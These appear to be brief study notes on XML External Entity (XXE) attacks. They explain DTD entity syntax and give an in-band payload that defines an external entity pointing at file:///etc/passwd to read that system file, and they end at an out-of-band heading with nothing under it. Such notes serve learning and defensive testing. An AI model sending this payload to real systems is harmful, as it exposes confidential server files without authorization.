 # XXE Attack
XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data

## Understanding DTD
`!DOCTYPE {{ROOT_NODE}}` =>  Defines a root element of the document named ROOT_NODE
`!ELEMENT {{NODE}}` => Defines a node (can be the root_node)
`!ENTITY {{ENTITY_NAME}} "{{ENTITY_VALUE}}"` => Defines an internal entity with a name and a value
`!ENTITY {{ENTITY_NAME}} SYSTEM "{{URI/URL}}"` => Defines an external entity with a name and an uri, e.g. `SYSTEM 'file:///etc/passwd'`

Types available:
- #PCDATA => Parseable Character DATA

## in-band attack
Get an immediate reply

### Displaying a value
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## out-of-band attack
Reflect output to a file / server.